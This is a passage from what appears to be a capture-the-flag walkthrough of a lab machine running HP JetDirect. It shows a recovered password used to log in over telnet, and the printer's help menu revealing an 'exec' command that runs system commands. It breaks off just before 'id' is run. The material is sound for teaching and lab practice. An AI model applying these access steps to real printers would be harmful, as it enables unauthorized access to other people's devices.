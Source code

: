 
I’ll use `''.join()` to combine the list of characters back into a single more
readable string. Perhaps the password is “P@ssw0rd@123!!123”.

## Shell as lp

### Authenticated Telnet

I’ll try telnet again, this time with the potential password:

    
    
    oxdf@hacky$ telnet 10.10.11.107
    Trying 10.10.11.107...
    Connected to 10.10.11.107.
    Escape character is '^]'.
    
    HP JetDirect
    
    Password: P@ssw0rd@123!!123
    
    Please type "?" for HELP
    > 
    

It worked!

### Execution

The login message says that `?` will show the help. I’ll try that:

    
    
    > ?
    
    To Change/Configure Parameters Enter:
    Parameter-name: value <Carriage Return>
    
    Parameter-name Type of value
    ip: IP-address in dotted notation
    subnet-mask: address in dotted notation (enter 0 for default)
    default-gw: address in dotted notation (enter 0 for default)
    syslog-svr: address in dotted notation (enter 0 for default)
    idle-timeout: seconds in integers
    set-cmnty-name: alpha-numeric string (32 chars max)
    host-name: alpha-numeric string (upper case only, 32 chars max)
    dhcp-config: 0 to disable, 1 to enable
    allow: <ip> [mask] (0 to clear, list to display, 10 max)
    
    addrawport: <TCP port num> (<TCP port num> 3000-9000)
    deleterawport: <TCP port num>
    listrawport: (No parameter required)
    
    exec: execute system commands (exec id)
    exit: quit from telnet session
    

Most of it is about configuring the printer, but the last one, `exec` is very
interesting for my purposes. I’ll try running `id`:
